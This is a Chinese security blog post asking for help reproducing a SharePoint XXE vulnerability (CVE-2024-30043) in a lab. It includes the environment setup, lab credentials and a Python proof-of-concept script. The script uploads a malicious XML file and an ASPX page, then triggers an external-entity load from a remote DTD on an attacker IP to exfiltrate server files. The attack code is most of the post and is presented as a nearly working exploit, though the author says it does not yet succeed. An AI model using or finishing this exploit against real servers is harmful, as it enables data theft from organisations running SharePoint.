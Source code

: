 #  【悬赏问答】复现疑问求解答：Microsoft Sharepoint XXE（CVE-2024-30043）   
原创 W01fh4cker  追梦信安   2024-06-03 23:51  
  
最近这两天我在复现Microsoft Sharepoint XXE（CVE-2024-30043）漏洞的过程中遇到了一些问题，反复调试研究无果，折磨了很长时间，现在决定在我公众号发出悬赏，解决成功的直接后台私信我你的微信，赏金也不高，暂定一个月的疯狂星期四吧。  
  
主要参考文章为：  
> https://www.zerodayinitiative.com/blog/2024/5/29/cve-2024-30043-abusing-url-parsing-confusion-to-exploit-xxe-on-sharepoint-server-and-cloud  
  
  
漏洞复现环境如下：  
- Microsoft Sharepoint Server 2019，详细大版本为16.0.10337，域名sp2019.cve.lab；  
  
- Sqlserver 2019 + SSMS，域名sqlserver.cve.lab；  
  
- DC，域名dc.cve.lab。  
  
所有都是基于cn_windows_server_2016_x64_dvd_9327743.iso进行搭建，虚拟机版本为VMware® Workstation 17 Pro（17.5.0 build-22583795）。  
  
一共有两个账号，分别是CVE\\Administrator，密码1qaz@WSX!@#456；另一个是CVE\test，密码为空。  
  
环境下载地址如下（没有会员的师傅可以淘宝购买临时1天共享账号）：  
> 链接: https://pan.baidu.com/s/1LF7GmE8ujNEXnMw2Bi8Q_A 提取码: 5grq  
  
  
具体遇到的问题如下：  
  
按照zdi的博客中所给出的payload（ file://localhost\c$/sites/mysite/test.xml）打过去之后，无法获得值为false的m_Unrestricted属性，导致后续利用失败；后来调试发现，该payload和http://sp2019//sites/mysite/test.xml所获取到的zone都是internet，导致Permissionset为限制较大的NamePermissionset。  
  
相关截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12pezwFq4ToIrvt0sf7ydPMZuyANvBZtKhwE1QDSnibO4ibAc2qQ528gwFvRavibY3CaEnw4odDJklImw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12pezwFq4ToIrvt0sf7ydPMZibOLJiaBRKePdkQIAE57uWOiaqiaPvzqLCIl0g0816AW5QVpbWSPclCWog/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12pezwFq4ToIrvt0sf7ydPMZGrGegTSKyUg0peWJbCfJur6yjUzZuph4box8PCp2UbrFlLvvzUIJCw/640?wx_fmt=png&from=appmsg "")  
  
官方油管视频利用成功截图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12pezwFq4ToIrvt0sf7ydPMZgfx3dicASwSgn00UvJ553oUZUWfpTmcKyibw2xvNJZkFpSl8UP9B2Ubw/640?wx_fmt=png&from=appmsg "")  
  
我编写的可能的poc脚本，用于上传xml和aspx到站点根目录下并访问aspx触发xxe：  
```
import os
import random
import string
import requests
from requests_ntlm import HttpNtlmAuth

def GenerateRandomString(length):
    characters = string.ascii_letters + string.digits
    return "".join(random.choices(characters, k=length))

def GenerateEvilXmlAndAspx(variable_name, evil_dtd, sitepath):
    evil_xml_content = f"""<?xml version="1.0" ?>\n<!DOCTYPE a [\n<!ELEMENT a ANY >\n<!ENTITY % remote SYSTEM "{evil_dtd}">%remote;\n%int;\n%send;\n]>\n<a>wat</a>"""
    evil_aspx_content = f"""<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"><%@ Page Language="C#" %><%@ Register tagprefix="SharePoint" namespace="Microsoft.SharePoint.WebControls" assembly="Microsoft.SharePoint, Version=16.0.0.0, Culture=neutral, PublicKeyToken=71e9bce111e9429c" %><html dir="ltr" xmlns="http://www.w3.org/1999/xhtml"><head runat="server"><meta name="WebPartPageExpansion" content="full" />    <title>{variable_name}</title>    <meta http-equiv="X-UA-Compatible" content="IE=10" />    <SharePoint:CssRegistration Name="default" runat="server"/></head><body>    <form id="form{variable_name}" runat="server">        <SharePoint:SPXmlDataSource ID="XmlDataSource{variable_name}" runat="server" DataFile="file://localhost\\c${sitepath}/{variable_name}.xml" />        <asp:GridView ID="GridView{variable_name}" runat="server" DataSourceID="XmlDataSource{variable_name}" AutoGenerateColumns="true" />    </form></body></html>"""
    with open(f"{variable_name}.xml", "w", encoding="utf-8", newline="") as evil_xml:
        evil_xml.write(evil_xml_content)
        evil_xml.close()
    with open(f"{variable_name}.aspx", "w", encoding="utf-8", newline="") as evil_aspx:
        evil_aspx.write(evil_aspx_content)
        evil_aspx.close()

def GetAuthSesion(username, password):
    session = requests.Session()
    session.auth = HttpNtlmAuth(username, password)
    return session

def GetSiteID(url, sitepath, proxy, session):
    response = session.get(f"{url}/{sitepath}/_api/web", headers={'accept': 'application/json;odata=verbose'}, proxies=proxy)
    if response.status_code == 200:
        data = response.json()
        site_id = data['d']['Id']
        print(f'Site ID: {site_id}')
    else:
        print(f'Error: {response.status_code}')
        print(response.text)

def UploadFilesToWebRoot(url, sitepath, proxy, filepath, session):
    file_name = os.path.basename(filepath)
    upload_url = f"{url}{sitepath}/_api/web/GetFolderByServerRelativeUrl('{sitepath}')/Files/add(url='{file_name}',overwrite=true)"
    token_response = session.post(f"{url}{sitepath}/_api/contextinfo", headers={"Accept": "application/json;odata=verbose"}, proxies=proxy)
    if token_response.status_code != 200:
        print(token_response.text)
    token = token_response.json()["d"]["GetContextWebInformation"]["FormDigestValue"]
    with open(filepath, "rb") as file:
        file_content = file.read()
        file.close()
    headers = {
        "Accept": "application/json;odata=verbose",
        "Content-Type": "application/octet-stream",
        "X-RequestDigest": token
    }
    response = session.post(upload_url, headers=headers, data=file_content, proxies=proxy)
    if response.status_code == 200:
        print(f"{url}{sitepath}/{file_name}")
    else:
        print(response.status_code)
        print(response.text)

def TriggerRce(url, sitepath, proxy, filename):
    resp = requests.get(f"{url}{sitepath}/{filename}", proxies=proxy)


if __name__ == "__main__":
    url = "http://sp2019/".strip("/")
    sitepath = "/sites/cvetest"
    # proxy = {
    #     "http": "127.0.0.1:8083",
    #     "https": "127.0.0.1:8083"
    # }
    proxy = None
    evil_dtd = "http://192.168.198.133/dtd.xml"
    username = "CVE\\Administrator"
    password = "1qaz@WSX!@#456"
    session = GetAuthSesion(username, password)
    variable_name = GenerateRandomString(8)
    GetSiteID(url, sitepath, proxy, session)
    GenerateEvilXmlAndAspx(variable_name, evil_dtd, sitepath)
    UploadFilesToWebRoot(url, sitepath, proxy, f"{variable_name}.xml", session)
    UploadFilesToWebRoot(url, sitepath, proxy, f"{variable_name}.aspx", session)
    TriggerRce(url, sitepath, proxy, f"{variable_name}.aspx")

```  
  
  
  
